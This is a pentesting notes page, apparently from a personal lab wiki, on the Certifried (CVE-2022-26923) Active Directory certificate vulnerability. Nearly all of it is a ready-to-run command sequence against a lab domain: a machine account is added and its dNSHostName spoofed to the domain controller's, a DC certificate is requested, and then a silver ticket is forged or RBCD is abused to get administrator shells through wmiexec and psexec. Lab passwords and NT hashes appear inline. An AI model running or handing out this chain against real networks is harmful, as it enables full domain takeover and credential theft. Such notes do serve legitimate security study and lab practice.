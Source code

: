 ```yaml
---
description: Certifried (CVE-2022-26923)
---
```


# Certifried

This vulnerability is based manipulating **certificate mapping** when creating a computer account. Certificate mapping relied on `dNSHostName` attribute of a computer account. So when a computer requested a certificate, it trusted that `dNSHostName` as its identity.

Exploit by

1. Clear the SPN linked to computer account
2. Modify the `dNSHostName` to impersonate other machine.
3. Request a certificate using Machine template.

### <mark style="color:yellow;">Abuse</mark>

Check if CA is patched

```sh
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -dc-ip 10.129.228.237 -template User
```

Add computer which dnsHostName should match DCs.

```sh
addcomputer.py -computer-name 'CERTIFRIED$' -computer-pass 'Password123!' -dc-ip 10.129.228.134 'LAB.LOCAL/Blwasp':'Password123!'
```

Enumerate and check DNS names

```sh
certipy find -u 'BlWasp@lab.local' -p 'Password123!' -stdout -vulnerable
```

Edit dnsHostName with powerview

```sh
┌──(mczen㉿mczen)-[~/Dropbox/Win]
└─$ powerview lab.local/BlWasp:'Password123!'@10.129.228.237 
Logging directory is set to /home/mczen/.powerview/logs/lab-blwasp-10.129.228.237
[2025-01-31 18:51:15] [Storage] Using cache directory: /home/mczen/.powerview/storage/ldap_cache
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]
PV > Set-DomainObject -Identity 'CERTIFRIED$' -Set dnsHostName="dc02.lab.local"
[2025-01-31 18:51:33] [Set-DomainObject] Success! modified attribute dnshostname for CN=CERTIFRIED,CN=Computers,DC=lab,DC=local
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]
```

Request certificate and impersonate DC

```shell-session
certipy req -u 'CERTIFRIED$' -p 'Password123!' -dc-ip 10.129.228.134 -ca lab-LAB-DC-CA -template 'Machine'
```

Authenticate

```sh
certipy auth -pfx dc02.pfx
```

Proceed for silver ticket, get SID

```sh
nxc ldap 10.129.228.237 -u dc02$ -H cdd3cf40d6d5bee74013db1c26f58ee1 --get-sid
```

Get silver ticket

```sh
ticketer.py -nthash db35f9cf2e343f0795d33aef721a8f9a -domain-sid S-1-5-21-2810262047-4248699891-1002428937 -domain lab.local -spn cifs/dc02.lab.local Administrator
```

### <mark style="color:yellow;">Alternate Method</mark>

```shell
certipy auth -pfx dc02.pfx -dc-ip 10.129.228.237 -ldap-shell
```

In ldap shell

```sh
add_computer ESC1 E$C1
set_rbcd DC02$ ESC1$
exit
```

Request CIFS ticket

```shell
getST.py -spn cifs/dc02.lab.local -impersonate Administrator -dc-ip 10.129.228.237 'lab.local/esc1$:E$C1'
```

Then connect

```sh
# WMI
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache wmiexec.py -k -no-pass dc02.lab.local  

# PSEXEC
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache psexec.py -k -no-pass dc02.lab.local
```
